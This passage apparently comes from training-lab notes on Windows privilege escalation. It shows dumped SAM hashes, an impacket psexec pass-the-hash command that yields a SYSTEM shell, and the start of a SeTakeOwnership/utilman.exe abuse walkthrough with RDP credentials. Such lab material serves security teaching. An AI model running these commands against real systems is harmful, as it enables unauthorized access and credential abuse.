 \[\*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821

\[\*] Dumping local SAM hashes (uid:rid:lmhash:nthash)

Administrator:500:aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5:::

**6. Perform Pass-the-Hash attack to gain access to target with SYSTEM privileges.**

python3.9 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5 administrator@10.10.21.86

Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

\[\*] Requesting shares on 10.10.21.86.....

\[\*] Found writable share ADMIN$

\[\*] Uploading file uoQARDky.exe

\[\*] Opening SVCManager on 10.10.21.86.....

\[\*] Creating service jeuG on 10.10.21.86.....

\[\*] Starting service jeuG.....

\[!] Press help for extra shell commands

Microsoft Windows \[Version 10.0.17763.1821]

(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami

nt authority\system

### **SeTakeOwnership Privilege** <a href="#id-7yz3az4onjmp" id="id-7yz3az4onjmp"></a>

* Allows user to take ownership of any object on a system.
* Opens up many possibilities for an attacker to elevate privileges.
  * E.g. Take ownership of a service's executable that is running as SYSTEM.

#### **Abuse utilman.exe to escalate privileges Use Case** <a href="#xaeaztb95it6" id="xaeaztb95it6"></a>

* Utilman is built-in Window app used to provide Ease of Access options during lock screen.
* Runs with SYSTEM privileges.

**1. RDP to target machine.**

xfreerdp /u:THMTakeOwnership /P:TheWorldIsMine2022 /v:10.10.33.51

**2. Open command prompt using "Open as administrator" to get the SeTakeOwnership privilege.**

* Check privileges.

whoami /priv

PRIVILEGES INFORMATION

\----------------------

Privilege Name Description State
